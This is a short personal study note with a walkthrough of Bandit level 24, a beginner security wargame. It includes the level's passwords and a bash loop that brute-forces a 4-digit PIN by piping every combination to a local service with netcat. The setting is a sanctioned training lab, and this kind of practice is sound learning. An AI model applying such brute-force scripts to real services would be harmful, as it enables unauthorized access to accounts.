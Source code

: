 
[Bandit](Bandit.md)     [[HACKING]]     [[LINUX]]

# Bandit - level 24

password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
solution: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG 

## Level Goal  

A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode. There
is no way to retrieve the pincode except by going through all of the 10000
combinations, called brute-forcing.

## Solution

1. We can connect on port 30002 in a same way as we have done in level 20. We
   also have to pass password for current level and the 4 digit pin.The command
   is:
   `nc localhost 30002  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ****`
2. first we write a script **bruteforce.sh** which will create all possible combinations and write
   those in a text file:
   ```
   #!/bin/bash
   for i in {0000..9999}
   do 
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
   done
   ```
1. `./bruteforce.sh > combinations.txt`
2. `nc localhost 30002 < combinations.txt`




